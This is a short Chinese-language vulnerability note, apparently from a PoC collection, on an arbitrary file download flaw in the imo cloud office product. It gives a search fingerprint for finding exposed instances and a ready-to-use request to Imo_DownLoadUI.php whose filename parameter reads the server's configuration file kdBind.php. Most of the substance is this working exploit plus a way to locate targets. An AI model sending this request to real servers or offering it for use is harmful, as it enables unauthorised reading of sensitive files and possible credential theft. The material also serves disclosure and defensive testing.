

# imo 云办公室 Imo_DownLoadUI.php 任意文件下载漏洞

## 漏洞描述

imo 云办公室 由于 /file/Placard/upload/Imo_DownLoadUI.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

<a-checkbox checked>imo 云办公室</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="iMO-云办公室"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```javascript
/file/Placard/upload/Imo_DownLoadUI.php?cid=1&uid=1&type=1&filename=/OpenPlatform/config/kdBind.php
```

